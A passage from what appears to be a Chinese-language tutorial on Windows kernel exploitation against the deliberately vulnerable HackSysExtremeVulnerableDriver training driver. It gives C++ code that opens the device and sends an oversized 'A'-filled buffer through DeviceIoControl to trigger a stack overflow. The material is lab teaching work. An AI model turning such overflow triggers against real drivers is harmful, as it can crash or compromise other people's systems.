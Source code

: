 内核态的通信和用户态不太一样。看过的教材中有使用C语言直接编译exe的，也有使用python/powershell调用库进行攻击的。于是这里打算介绍一下最普通的使用C语言的攻击，以及最近比较流行的使用powershell进行的攻击（这一类似乎被称之为fileless attack)

### <a class="reference-link" name="C%E8%AF%AD%E8%A8%80"></a>C语言

#### <a class="reference-link" name="%E9%80%9A%E8%AE%AF%E5%87%86%E5%A4%87"></a>通讯准备

首先要能够实现最基本的通信，使用C（Cpp）的话，需要直接调用Windows系列的API对文件进行操作，如下:

```
#include "pch.h"
#include &lt;iostream&gt;
#include &lt;Windows.h&gt;

#define DEVICE_NAME L"\\\\.\\HackSysExtremeVulnerableDriver"

HANDLE GetDeviceHandle() `{`
    HANDLE hRet = NULL;
    hRet = CreateFile(
        DEVICE_NAME,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED,
        NULL
    );
    if (hRet == INVALID_HANDLE_VALUE) `{`
        std::cout &lt;&lt; "Error open Device with error code " &lt;&lt; GetLastError() &lt;&lt; std::endl;
    `}`
    return hRet;
`}`
// Just Communicate with Driver
VOID TriggerStackOverFlow(DWORD dwCTLCode) `{`
    HANDLE hDev = GetDeviceHandle();
    if (!hDev)
        return;
    std::cout &lt;&lt; "We Get handle is :" &lt;&lt; std::hex &lt;&lt; hDev &lt;&lt; std::endl;

    DWORD dwSize = 0x818;
    DWORD dwRetSize = 0;
    CHAR *Buffer = (CHAR*)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwSize);
    RtlFillMemory(Buffer, dwSize, 'A');

    OutputDebugString(L"[+]  =========== Kernel Mode  =============== [+]");
    DeviceIoControl(hDev, dwCTLCode, Buffer, dwSize, NULL, 0, &amp;dwRetSize, NULL);
    OutputDebugString(L"[+]  =========== IOCTL Finish =============== [+]");

    std::cout &lt;&lt; "Finish Send IOCTL" &lt;&lt; std::endl;
    HeapFree(GetProcessHeap(), 0, Buffer);
    Buffer = NULL;
`}`
int main()
`{`
    std::cout &lt;&lt; "[+] Exerciese: Stack Overflow\n"; 
    TriggerStackOverFlow(0x222003);
`}`
```

